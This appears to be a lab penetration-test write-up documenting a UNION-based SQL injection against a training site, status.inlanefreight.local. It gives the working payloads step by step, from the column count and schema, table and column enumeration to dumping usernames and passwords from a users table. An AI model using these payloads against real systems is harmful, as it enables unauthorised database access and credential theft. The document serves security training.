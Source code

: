 In the http://status.inlanefreight.local/ we have an error when inputing a single apostrophe('), indicating possible SQL vulnerability:
![[Pasted image 20240718175016.png]]

The tester found there is 4 columns in the database, used:
```
cn' UNION select 1,2,3,4-- -
```

The tester used the following input to find the names of the databases:
```
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```
![[Pasted image 20240718175402.png]]

The tester then proceeded to enumerate tables in the database:
```
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='status'-- -
```
![[Pasted image 20240718175518.png]]

the tester then enumerated the columns in a similar way:
```
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='users'-- -
```
![[Pasted image 20240718180035.png]]

Finally the tester dumped the users data from the table:
```
cn' UNION select 1, username, password, 4 from status.users-- -
```
![[Pasted image 20240718180129.png]]
